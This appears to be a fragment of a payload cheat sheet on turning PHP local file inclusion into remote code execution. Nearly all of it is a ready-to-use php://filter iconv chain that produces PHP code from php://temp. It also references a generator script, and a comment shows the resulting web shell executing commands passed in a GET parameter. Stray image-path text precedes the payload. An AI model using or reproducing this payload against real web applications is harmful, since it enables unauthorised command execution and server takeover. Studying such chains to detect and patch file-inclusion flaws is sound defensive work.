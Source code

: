   ```powershell
  php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.UCS-2.UTF8|convert.iconv.L6.UTF8|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
  ```
* [LFI2RCE.py](./LFI2RCE.py) to generate a custom payload.
  ```powershell
  # vulnerable file: index.php
  # vulnerable parameter: file
  # executed command: id
  # executed PHP code: <?=`$_GET[0]`;;?>
  ```